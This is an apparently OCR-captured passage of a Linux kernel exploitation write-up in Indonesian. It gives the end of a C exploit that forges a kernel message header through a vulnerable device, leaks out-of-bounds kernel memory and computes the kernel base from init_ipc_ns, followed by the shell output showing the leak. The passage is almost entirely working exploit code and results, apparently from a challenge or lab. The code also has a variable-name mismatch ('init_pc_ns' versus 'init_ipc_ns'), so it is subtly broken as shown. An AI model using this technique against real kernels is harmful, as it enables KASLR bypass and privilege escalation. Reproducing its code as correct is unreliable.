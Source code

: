 ```c
        }
    

        char *shmaddr;
        shmaddr = shmat(shmid,NULL,0);
        if(shmaddr == (void *)-1){
            perror("shmat");
            close(fd);
            return EXIT_FAILURE;
        }
    }
    msg_evil evil;
    int size;
    size = 0x2000;
    memset((void *)&evil,0,sizeof(msg_evil));
    evil.m_next = (void *)0x4141414141414141;
    evil.m_prev = (void *)0x4242424242424242;
    evil.size = size;
    memset(buff,0,sizeof(buff));
    memcpy(buff,(void *)&evil,0x20);
    store(0x20,buff);
    
    unsigned long kbase, init_ipc_ns;
    load(0x1400,recv);
    for(int i=0;i < 0x1400 / 8;i++){
        printf("0x%04x: 0x%016lx\n" ,i , *(unsigned long*)(recv + i * 8));
        if((*(unsigned long *)(recv + i * 8) & 0xffff) == 0x5540){
            init_pc_ns = *(unsigned long *)(recv + i * 8);
            break;
        }
    }

    kbase = init_ipc_ns - (0xffffffff81e15540 - 0xffffffff81000000);

    printf("init_ipc_ns: 0x%016lx\n" ,init_ipc_ns);
    printf("kernel base: 0x%016lx\n" ,kbase);

    return 0;
}

```

ini hasilnya

```bash

/ # ./exp
perangkat terbuka
0x0000: 0x4141414141414141
0x0001: 0x4242424242424242
0x0002: 0x0000000000002000
0x0003: 0x0000000000000000
0x0004: 0x0000000001000200
0x0005: 0xffffffff82292ae0
0x0006: 0xffff88800790dc00
0x0007: 0xffffffff81e15540
init_ipc_ns: 0xffffffff81e15540
kernel base: 0xffffffff81000000

```
---
